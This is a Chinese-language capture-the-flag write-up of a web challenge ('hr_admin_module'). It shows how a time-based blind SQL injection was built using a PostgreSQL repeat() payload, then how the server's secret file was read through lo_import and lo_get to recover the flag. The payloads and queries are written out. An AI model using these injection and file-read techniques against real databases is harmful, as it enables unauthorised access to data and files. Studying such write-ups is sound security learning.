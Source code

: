 # hr_admin_module

這題是這場我花最多時間的 web 題，不過還蠻好玩的，發現很多新招XD

首先是 SQL Injection:

從 `user_search` 參數可以發現 SQL Injection 特徵

當我輸入不合 SQL 語法時，會噴 Warning ，但他是第二次 Request 才會顯示

e.g. 

- 有warning: `admin'` or `admin'-` ...

- 沒warning: `admin'--` or `admin''` or `admin' and 1=2 --` ...

而且這題似乎擋了很多東西，`pg_sleep`無法用，`dblink`簡單踹一下似乎也沒dns request (但賽後才知道好像其實可以?)

後來就發現 `repeat()` 可以讓 Server 卡住

e.g. `'and 1=2 union select NULL, (select case when 1=1 then (select repeat('a', 10000000)) else NULL end)--`

所以我們就有了 Time-based 的 SQL Injection

但撈了一整天，DB 裡面沒啥可用的東西，`pg_read_file` , `pg_ls_dir` 等函數也都不能用

可是 `/var/lib/postgresql/data/secret` 這個 path 很明顯是 default data directory

所以應該還是有辦法能讀檔

猜測是要找到某個沒被限制的函數去讀檔

找了無數個小時，還翻了postgres src

最後找到 `lo_import`, `lo_read`, `lo_open`, ... 這系列的 function

他可以把檔案載入進 Object 中

遠端測試: `lo_import('/var/lib/postgresql/data/secret')`

回傳一個 OID 回來，所以代表 flag 有成功載入進去

接著用 `lo_get(OID)`，把這個 OID 對應的 Object 讀出來就行

```
select cast(lo_import('/var/lib/postgresql/data/secret') as text)
=> 18440

select cast(lo_get(18440) as text)
=> \x66627b4040646e....
```


`fb{@@dns_3xfil_f0r_the_w1n!!@@}`


